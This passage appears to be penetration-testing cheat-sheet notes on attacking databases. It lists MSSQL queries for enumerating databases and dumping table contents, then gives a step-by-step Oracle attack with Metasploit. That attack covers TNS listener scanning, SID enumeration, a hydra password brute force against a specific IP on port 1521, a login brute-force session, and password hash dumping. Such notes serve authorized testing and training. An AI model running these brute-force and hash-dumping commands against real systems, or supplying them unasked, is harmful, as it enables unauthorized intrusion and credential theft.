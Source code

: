 list databases

{% highlight PowerShell %}
select name from master..sysdatabases;
{% endhighlight %}

list data in tables

{% highlight PowerShell %}
select * from trophy_table;
{% endhighlight %}

## Oracle

http://pentestdiary.blogspot.com/2017/08/oracle-database-penetration-testing.html

Stages to attach Oracle with Metasploit:

1. scan range for oracle tns listener version (scanner/oracle/tnslsnr_version) 
2. get sid from hosts found (auxiliary/scanner/oracle/spy_sid) 
3. use orale login enumerator (auxiliary/admin/oracle/oracle_login) 
4. dump password hashes (auxiliary/scanner/oracle/oracle_hashdump)

scanning (Find Oracle TNS Listener)

{% highlight PowerShell %}
msf > use scanner/oracle/tnslsnr_version
{% endhighlight %}

Brute Force TNS Listener

{% highlight PowerShell %}
hydra -P /tmp/tnspass.txt -t 16 -s 1521 10.50.1.246
{% endhighlight %}

Brute force the oracle sids

{% highlight PowerShell %}
use auxiliary/scanner/oracle/sid_brute
{% endhighlight %}

SID enum

{% highlight PowerShell %}
msf auxiliary(tnslsnr_version) > use scanner/oracle/sid_enum
{% endhighlight %}

login bruteforce

{% highlight PowerShell %}
msf auxiliary(tnscmd) > use admin/oracle/login_brute
msf auxiliary(login_brute) > set RHOST <oracle-ip>
RHOST => <oracle-ip>
msf auxiliary(login_brute) > set SID <sid>
SID => <sid>
msf auxiliary(login_brute) > run
{% endhighlight %}
